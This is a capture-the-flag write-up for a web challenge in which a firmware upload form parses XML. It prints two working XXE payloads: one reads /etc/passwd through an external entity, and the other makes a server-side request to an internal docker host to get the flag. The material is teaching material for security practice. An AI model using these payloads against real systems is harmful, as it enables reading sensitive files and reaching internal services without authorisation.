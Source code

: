 # Traffic Lights W

>Can you figure out what’s going on with this shady company? https://traffic-light-w.web.hsctf.com/

You are given a page where you can upload firmware to some docker containers.

![](main.png)

When you clock on the "Upload Firmware" button, you are able to upload XML firmware to that container.

![](xml.png)

The example firmware is below.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<root>
  <content>Red</content>
</root>
```

When you upload that, you are echoed back "Red".

I tried some xxe payloads I looked up online, and one of them worked! Payload is below:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<root>
  <content>&xxe;</content>
</root>
```

![](passwd.png)

The challenge was to figure out what suspicious thing the company was doing, so I wondered what would happen if I connected to one of the docker containers, so I did just that, and that gave us the flag!

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://traffic-light-1004/"> ]>
<root>
  <content>&xxe;</content>
</root>
```

![](sol.png)

Flag: `flag{shh_im_mining_bitcoin}`
